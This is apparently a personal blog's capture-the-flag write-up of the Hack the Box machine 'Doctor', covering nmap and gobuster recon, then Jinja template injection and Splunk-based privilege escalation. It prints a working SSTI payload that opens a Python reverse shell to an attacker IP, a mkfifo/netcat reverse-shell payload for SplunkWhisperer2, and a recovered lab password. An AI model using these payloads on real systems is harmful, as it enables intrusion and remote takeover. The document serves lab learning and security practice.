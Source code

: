 +++
author = "Nick"
categories = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
date = 2021-05-01T17:02:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/11/doctor.png"
slug = "hack-the-box-doctor"
tags = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
title = "Hack the Box - Doctor"

+++


Welcome back! Today we are doing the Hack the Box machine - Doctor. This machine is listed as an Easy Linux machine. Let's jump in!

At this point, you know how we kick it off. That's right, `nmap`.

Command:
`nmap -sC -sV -p- -oA allscan 10.10.10.209`

Here are our results:
```
Nmap scan report for 10.10.10.209
Host is up (0.045s latency).                                                                                                                                                                       
Not shown: 65532 filtered ports                                                                                                                                                                    
PORT     STATE SERVICE  VERSION                                                                                                                                                                    
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)                                                                                                               
| ssh-hostkey:                                                                                                                                                                                     
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)                                                                                                                                     
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)                                                                                                                                    
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)                                                                                                                                  
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                             
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                       
|_http-title: Doctor                                                                                                                                                                               
8089/tcp open  ssl/http Splunkd httpd                                                                                                                                                              
| http-robots.txt: 1 disallowed entry                                                                                                                                                              
|_/                                                                                                                                                                                                
|_http-server-header: Splunkd                                                                                                                                                                      
|_http-title: splunkd                                                                                                                                                                              
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser                                                                                                                
| Not valid before: 2020-09-06T15:57:27                                                                                                                                                            
|_Not valid after:  2023-09-06T15:57:27                                                                                                                                                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                                                            
                                                                                                                                                                                                   
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 150.43 seconds  
```

So not much to see. We have a required key SSH option, a site being hosted  on 80 and potentiall 8089. It would seem that a path forward could be through `Splunk`. Awesome! As someone that uses Splunk on the daily, this should be fun.

When we visit the site being hosted, we are greated with a site dedicated to doctors. We see a site listed as doctors.htb, so we'll add that to our hosts lists. This way we can fuzz additional subdomains.

Next we kick of a `gobuster` scan to see what we can find.

Command:
`gobuster dir -u doctors.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php -t 40`

We get back some basic pages.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-7.png" >}}

Let's try to access some of these 'hidden' pages, like `archive` and `login`. Nothing is there. If we navigate to 'doctors.htb' we are prompted with a login page. Checking the source does show the `archives` page as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-8.png" >}}

We can test the login page for basic injections but doesn't seem to be anything there. We can register an account though. We create the account and are given 20 minutes of access. Once we get authenticated we have a very small interface to work with.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-9.png" >}}

We can create new messages it seems.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-10.png" >}}

It's possible this field has some injection options. If we submit an `<h1>` tag, we can see it does reflect the HTML code.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-11.png" >}}

What's interesting about this is that the messages we send are also posted over to `/archive` as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-12.png" >}}

As we do more recon about the site, we see that `wappalyzer` has the site framework as `python`. So there are a few scenarios here. This form could be `XSS` or it oculd be `Template Injection` vulnerable. My guess would be the latter. You can read more on `Template Injection` [here](https://portswigger.net/research/server-side-template-injection).

If we google Python Template engine, we see the first result is `jinja`. If we google jinja template injection we see a few options, a good resource being [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings

We can test against this use case by doing just what's listed:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-13.png" >}}

Sure enough, we do get the expected results!


{{<  src="__GHOST_URL__/content/images/2020/11/1.png" width="272" height="166" >}}{{<  src="__GHOST_URL__/content/images/2020/11/12.png" width="293" height="96" >}}

So now, how do we leverage this? We simply leverage the supplied [Remote Code statement](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)!

Since it is `python` based, we can actually modify this statement to supply a standard `python` remote shell.

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.169\",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

We also need to ensure our listener is running on port 9090.

Command:
`nc -lvnp 9090`

We submit the message, check the archive page and we get a shell!

{{< figure src="__GHOST_URL__/content/images/2020/11/image-15.png" >}}

Now that we have a low level shell, we can enumerate and escalate. We'll copy over `linpeas` and see what show up.

Make sure you have a web server running in your peas location.

Command:
`python -m SimpleHTTPServer 80`

Then download `linpeas`.

Command:
`wget 10.10.14.169/linpeas.sh`

Change the file permissions.

Command:
`chmod +x linpeas.sh` 

Then run it.

There's a lot to sift through. We do however, find a password in an old backup file:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-16.png" >}}

We can a assume the user typed his password in the email field here. And given the lines below it, make the assumption that the user is shaun. We'll just switch to Shaun and see.

Command:
`su shaun`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-17.png" >}}

Now if we upgrade our shell and snag our `user.txt` flag. Once we have it, we can start enumerating again. We'll re-run `linpeas` and see what it can find. An item that semi-sticks out is that `root` is running the `splunkd` process.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-18.png" >}}

If you've spent anytime working with `Splunk` you know this is a potentially bad scenario. Items like [SplunkWhisperer2](https://github.com/DaniloCaruso/SplunkWhisperer2) can make for a really bad day.

We'll clone the repo.

Command:
`git clone https://github.com/DaniloCaruso/SplunkWhisperer2`

Now we can use this to escalate our privileges. Simply supply the right commands to get a shell back or even just snag our flag file.

Command:
`python PySplunkWhisperer2_remote.py --lhost 10.10.14.169 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/zzz;mkfifo /tmp/zzz;cat /tmp/zzz|/bin/sh -i 2>&1|nc 10.10.14.169 6666 >/tmp/zzz"'`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-19.png" >}}

We  get a shell back as root! We get our flag and the box is done!



